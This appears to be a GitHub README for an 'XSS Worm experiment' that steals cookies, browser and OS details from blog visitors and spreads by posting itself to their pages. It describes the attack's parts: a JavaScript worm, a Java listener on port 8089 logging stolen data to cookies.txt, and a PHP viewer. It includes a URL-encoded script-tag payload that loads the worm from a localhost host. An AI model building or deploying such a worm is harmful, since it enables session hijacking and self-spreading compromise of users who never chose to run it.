 # XSS-Worm
XSS Worm experiment, which steals cookies and some information of victim's, also spreads others. Written in js, php and java.

## Stealing
The worm will send cookies and some other client information (like browser and os) to the attacker (attacker is localhost in the script).
1. The script inside **javascript/worm.js** need to be embedded into a blog somehow(attacker posts to his page in this experiment).
2. Attacker will listen a port (8089 in this experiment) to receive stealed data sent from worm. And incoming data will be printed to a text file (named "cookies.txt"). Here the **tcp/Main.java** program will do the trick.
3. Finally, attacker can display stealed information with **web/innocentwebapp.php** file which parses "cookies.txt" file. Stealed information will be seperated by "#" character in script. when parsing, it will be delimited by "#".
```php
$row_data = explode('#', $data);
```

## Spreading
The worm (**javascript/worm.js**) will spread(post) itself to anyone's webpage who *involuntarily* run itself.
1. Worm has a part which sends a request to **web/agentsmith.php** and post its response to the blog whom visits the contagious page.(To make the request properly, data must be URL encoded.)
```javascript
var agentsmith = "%3Cscript%20type%3D%5C%22text%2Fjavascript%5C%22%20src%3D%5C%22http%3A%2F%2Flocalhost%2Fagentsmith.php%5C%22%3E%3C%2Fscript%3E";
```

2. If the worm posted succefully to victims webpage, who visits the victims contagious page will be also exploited.
